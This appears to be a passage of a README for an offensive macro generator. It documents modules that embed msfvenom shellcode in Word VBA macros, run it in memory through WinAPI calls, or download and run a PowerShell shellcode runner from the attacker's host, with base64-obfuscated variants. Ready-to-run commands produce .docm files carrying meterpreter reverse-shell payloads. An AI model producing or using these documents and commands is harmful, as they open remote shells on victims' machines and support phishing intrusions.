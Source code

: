 ### 4. `metasploit_runner` / `metasploit_runner_obf`
- Purpose: Generates shellcode using `msfvenom` and embeds it in VBA to run in memory via WinAPI.
- Params:
  - `--payload`: e.g. `windows/x64/meterpreter/reverse_https`
  - `--lhost`: Attacker IP
  - `--lport`: Listener port
- Notes:
  - Uses `VirtualAlloc`, `CreateThread`, `RtlMoveMemory`
  - Will prompt for manual input if `msfvenom` is not available
- Example:
  ```bash
  python main.py --macro metasploit_runner --payload windows/x64/meterpreter/reverse_tcp --lhost 192.168.1.100 --lport 443 --output rce.docm
  ```

### 5. `ps1_macro_runner` / `ps1_macro_runner_obf`
- Purpose: Generates a PowerShell shellcode runner script and macro that downloads + executes it.
- Params:
  - `--payload`
  - `--lhost`
  - `--lport`
- Output:
  - Word macro that fetches `.ps1` from `http://<lhost>/<output>.ps1`
  - `.ps1` file is automatically created in same folder
- Obfuscation:
  - Obfuscated macro uses `powershell -e <base64>` encoding
- Example:
  ```bash
  python main.py --macro ps1_macro_runner --payload windows/x64/meterpreter/reverse_https --lhost 192.168.1.93 --lport 443 --output launcher.docm
  ```

## Shellcode Generation Logic

- If `msfvenom` is installed, the macro scripts will auto-generate the shellcode using:
  ```bash
  msfvenom -p <payload> LHOST=<ip> LPORT=<port> EXITFUNC=thread -f vbapplication|ps1
  ```

- If `msfvenom` is NOT installed, you can manually paste shellcode when prompted by the script:
  - Use another machine to generate it
  - Paste the full output
  - Type `EOF` when done

## Platform Differences

| Feature                    | Windows | Linux        |
|---------------------------|---------|--------------|
| `.docm` generation        | Yes     | No           |
| `.vba` file export        | Yes     | Yes          |
| Word integration          | Yes     | No           |
